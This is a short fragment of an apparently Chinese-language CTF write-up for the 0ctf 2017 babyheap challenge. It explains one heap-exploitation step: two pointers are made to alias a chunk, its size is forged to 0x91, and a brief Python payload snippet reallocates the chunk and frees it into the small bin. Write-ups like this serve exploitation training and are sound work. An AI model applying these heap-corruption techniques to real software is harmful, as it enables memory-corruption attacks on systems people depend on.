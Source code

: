 ![img](0ctf_2017_babyheap/images/image-11.png)

这样就有2个指针指向同一个chunk了 然后恢复size大小 申请回来再释放掉(当作small bin释放)
```py
payload = p64(0)*3 + p64(0x91)
fill(3,payload)
alloc(0x80)
free(4)
```
